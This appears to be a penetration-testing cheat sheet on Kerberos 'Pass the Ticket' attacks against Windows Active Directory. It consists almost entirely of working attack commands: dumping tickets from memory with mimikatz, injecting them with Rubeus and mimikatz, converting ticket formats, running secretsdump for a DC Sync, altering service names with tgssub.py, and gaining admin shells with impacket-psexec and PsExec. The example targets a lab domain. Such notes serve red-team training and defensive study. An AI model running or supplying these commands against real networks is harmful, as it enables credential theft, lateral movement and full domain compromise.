 # Pass the Ticket (ccache / kirbi)

## Tools: mimikatz , rubeus , impacket , ticketConverter.py , secretsdump , tgssub.py

# Convert format (Use this depending on use case)

 - ticketConverter.py KIRBI||CCACHE CCACHE||KIRBI (Convert tickets to the appropriate format)

#### 1) Rubeus

 - Rubeus.exe ptt /ticket:TICKET

#### 2) Mimikatz

 - mimikatz kerberos::ptc "TICKET"

#### 3) secretsdump

 - [proxychains] secretsdump.py -k 'DOMAIN'/'USER'@'IP' (See DC Sync)

#### 4) impacket tools (Grant System/Admin access)

 - export KRB5CCNAME=/path/to/TICKET.CCACHE

 - impacket-psexec -k -no-pass USER@IP (Example)

#### 5) tgssub.py 

### Modify SPN

 - tgssub.py -in TICKET.CCACHE -out NEW_TICKET.CCACHE -altservice "SERVICE/TARGET" (Pass the Ticket)

### Tool: Mimikatz


#### 1) privilege::debug

#### 2) sekurlsa::tickets /export

#### 3) kerberos::ptt TICKET.kirbi

#### klist

### TIP: TGTs = Admin Credentials.

#### Access to any service the user is allowed to access.

### TGSs=Low-privileged account

## Alternate Method: Rubeus

 - .\Rubeus.exe ptt /ticket:[0;28419fe]-2-1-40e00000-trex@krbtgt-JURASSIC.PARK.kirbi

 - klist

 - .\PsExec.exe -accepteula \\lab-wdc01.jurassic.park cmd
